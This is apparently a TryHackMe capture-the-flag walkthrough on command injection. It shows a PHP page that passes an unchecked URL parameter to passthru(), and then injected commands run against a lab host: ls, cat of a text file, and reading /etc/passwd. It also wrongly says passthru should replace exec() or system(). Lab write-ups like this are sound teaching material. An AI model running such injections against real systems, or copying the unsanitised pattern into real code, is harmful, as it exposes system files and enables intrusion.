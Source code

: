 # 01. Command injection practical


[Part 1. Before we start]

The passthru() function is similar to the exec() function in that it executes a command. This function should be used in place of exec() or system() 

[Part 2. Command injection]

Target: http://10.10.27.205/evilshell.php

My TryHackMe IP address using openvpn is: 10.4.65.8

- In file evilshell.php:

```php
if (isset($_GET["commandString"])) {
// var get value from param commandString 
    $command_string = $_GET["commandString"];
                        
    try {
//[?] execute the command 
        passthru($command_string);
    } catch (Error $error) {
        echo "<p class=mt-3><b>$error</b></p>";
    }
}
```

- pwd && lsb_release -a  shows that we are in the dir /var/www/html of ubuntu os

```
/var/www/html 
Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic 
```

1) What strange text file is in the website root directory?

- Firstly, we use ls to list all files or folders in the dir:

```
// we can see the file drpepper.txt right because it's the only txt file here 
css drpepper.txt evilshell.php index.php js 
```

- cat drpepper.txt: I love Dr Pepper

**Result:** drpepper.txt

2)  How many non-root/non-service/non-daemon users are there?

- In this case, we can cat /etc/passwd to show all users

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
........
lxd:x:105:65534::/var/lib/lxd/:/bin/false
........
```